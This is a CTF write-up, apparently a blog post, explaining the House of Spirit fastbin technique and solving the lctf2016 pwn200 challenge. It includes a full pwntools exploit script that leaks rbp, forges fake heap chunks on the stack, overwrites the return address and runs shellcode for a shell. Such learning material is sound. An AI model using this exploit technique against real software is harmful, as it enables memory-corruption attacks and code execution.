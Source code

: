 ```yaml
---
title: "PWN House_of_Spirit"
tags: ['CTF', 'Pwn']
authors: [nova]

---
```


Take a look at `House_of_spirit`, which is a technique that relies on constructing `fake_chunk` on the stack to achieve `(almost) arbitrary write`. It depends on `fastbin`.

<!--truncate-->

# how2heap

Overall, it's relatively simple. The key points to note are the need for `16-byte alignment` and the requirement to construct `chunk_size` of `next_fake_chunk` to bypass checks.

![image-20220719220643524](https://cdn.ova.moe/img/image-20220719220643524.png)

![image-20220719220923354](https://cdn.ova.moe/img/image-20220719220923354.png)

# Practical Combat

## lctf2016_pwn200

![checksec](https://cdn.ova.moe/img/image-20220719235857110.png)

No protections are enabled. Planning to go straight for `ret2shellcode`, but we don't have enough bytes for stack overflow.

![400A8E](https://cdn.ova.moe/img/image-20220719235308594.png)

The first function `who are u?` has an `Off-by-One` vulnerability that leaks the contents pointed to by `400A8E` `rbp` (which is the `rbp` of the parent function).

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://cdn.ova.moe/img/image-20220719235609346.png)

The function `read_input()` returns an `int`, and even though `400A8E` is not used, it should be stored at some location on the stack. Based on the assembly, it is located at `[rbp-0x38]`.

![rbp-0x38](https://cdn.ova.moe/img/image-20220720000140408.png)

In `400A29`, it can be observed that `dest` is a pointer, `buf` has an overflow of `8` bytes, which can directly overwrite `dest`. Since `dest` will be stored in `ptr` for later `free` and `malloc` operations in the `menu`.

![400A29](https://cdn.ova.moe/img/image-20220720000329530.png)

From this point, we can speculate that we can construct a `fake_chunk` in `buf` and manipulate the heap pointer to point to `buf`, creating a `chunk` on the stack. The challenge lies in the `check_out` function where we need to forge `fake_next_chunk_size` as required by `House_of_spirit`.

Calculations reveal that the previous `id` is located at our current `buf+0x68`. Therefore, we could create a `0x50`-sized `chunk` at this location and set the `id` to a value that satisfies `house_of_spirit`.

![fake_next_chunk_size](https://cdn.ova.moe/img/image-20220720001354338.png)

As a result, when we execute `free(ptr)`, the address on the stack will be stored in `fastbin`. Subsequently, by `malloc(0x60)` again and writing the corresponding payload to modify the return address, we can obtain a shell.

By observing, we find that the only controllable `ret_addr` is at `ptr+0x40`. With the return address controllable, where should we jump to? Do you remember the `0x30` data we input at the beginning of `who_r_u`? We can write the shellcode there. Just calculate the offset.

![image-20220720002739429](https://cdn.ova.moe/img/image-20220720002739429.png)

Complete EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

The bug that is quite puzzling (where `pwntools` cannot capture `Action`) was presented by LaughingMan. We'll discuss it later, have fun.

![image-20220720204517147](https://cdn.ova.moe/img/image-20220720204517147.png)


<!-- AI -->
